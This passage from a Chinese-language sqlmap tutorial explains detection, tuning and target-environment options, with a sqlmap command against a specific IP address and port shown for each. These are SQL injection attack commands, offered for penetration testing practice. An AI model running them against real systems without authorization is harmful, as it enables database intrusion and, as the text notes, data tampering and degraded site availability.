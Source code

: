 > **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —technique US**

## 六.优化探测过程

1. ##### —level 2：检测cookie中是否含有注入、3：检测user-agent、referer是否含有注入、5：检测host是否含有注入

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —level 3**

1. ##### —risk 默认1，最高4，等级高容易造成数据被篡改风险

> ##### **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —risk 3**

1. ##### —predict-output ： 优化检测方法，不断比对大数据，缩小检测范围，提高效率，与—threads参数不兼容

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —predict-output**

1. ##### —keep-alive ： 长连接、性能好，避免重复建立的网络开销，但大量长连接会占用服务器资源。与—proxy参数不兼容

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —keep-alive**

1. ##### —null-connection ： 只获取页面大小的值，通常用于盲注判断真假，与—text-only 不兼容

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —null-connection**

1. ##### -o ： 直接开启以上三个(—predict-output、—keep-alive、—null-connection)

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -o**

1. ##### —threads=7 ：提高并发线程，默认为1，建议不要超过10，否则影响站点可用性，与—predict-out不兼容

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —threads=7**

1. ##### —string=”woaini” ： 页面比较，用于基于布尔注入的检测，因为有时候页面随时间阈值变化，此时需要人为指定标识真假的字符串，除此之外，还有—not-string=”woaini”、—code=200、—titles=”Welcome”等等

> ##### python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —string=”woaini”

## 七.特定目标环境

1. ##### —skip-urlencode ：默认get传参会使用URL编码，但有些服务器没按规范，使用原始字符提交数据。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —skip-urlencode**

1. ##### —eval ：在提交前，对参数进行pyhton的处理，提升效率

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —eval=”import hashlib;hash=hashlib.md5(id).hexdigest()”**

1. ##### —dbms ： 指定数据库类型，还可以加上版本 Mysql<5.0>

> **python sqlmap.py -u “[http://59.63.200.79:8003](http://59.63.200.79:8003/)**/?id=1” —dbms=”Mysql”

1. ##### —os ： 指定操作系统，还可以是Linux

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —os=”Windows”**

1. ##### —invalid-bignum ：sqlmap默认使用负值让参数进行失效，该参数使用最大值让参数失效，比如 id=9999999

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —invalid-bignum**

1. ##### —invalid-logical ：使用布尔值，比如 id 13 and 18=19
